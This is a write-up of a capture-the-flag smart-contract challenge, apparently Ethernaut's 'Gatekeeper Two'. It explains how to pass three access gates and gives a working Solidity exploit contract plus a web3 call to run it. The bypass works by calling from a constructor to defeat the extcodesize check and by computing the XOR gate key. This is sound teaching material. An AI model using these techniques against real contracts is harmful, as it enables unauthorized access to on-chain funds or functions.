 The three gates which we are required to pass this time:
- `msg.sender != tx.origin` - the sending address must not match the origin address, this is the same as the previous level
- `extcodesize(msg.sender) == 0`
- `uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1)`

For the first gate we can just call a contract which calls the level instance. For the second gate we can put our code in a contract constructor which will mean that `extcodesize` [will return 0](https://ethereum.stackexchange.com/questions/14015/iscontract-function-using-evm-assembly-to-get-the-address-code-size). For the last gate we can trivially rearrange the equation to calculate the key when the constructor is run.

Putting all of this together we get the following contract:
```solidity
pragma solidity ^0.4.26;

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns (bool);
}
  
contract GKTwoProxy {
    constructor() public {
        GatekeeperTwo gk = GatekeeperTwo(0xd2eB098633CC4B8a6Be540EE607771b141BFB2eb);
        bytes32 hashed_addr = keccak256(abi.encodePacked(address(this)));
        uint64 xored = uint64(hashed_addr) ^ (uint64(0) - 1);
        bytes8 key =  bytes8(xored);
        gk.enter(key);
    }
}

contract Runner {
    function run() public {
        GKTwoProxy gk = new GKTwoProxy();
        
        // Avoid solidity complaining about unused variable
        gk;
    }
}
```

And we can run it like so:
```javascript
var c = web3.eth.contract(abi).at("0xf076d8dCf477C2518c1e43fa3d9b8731375F234F");
c.run({from: player}, ()=>{});
```
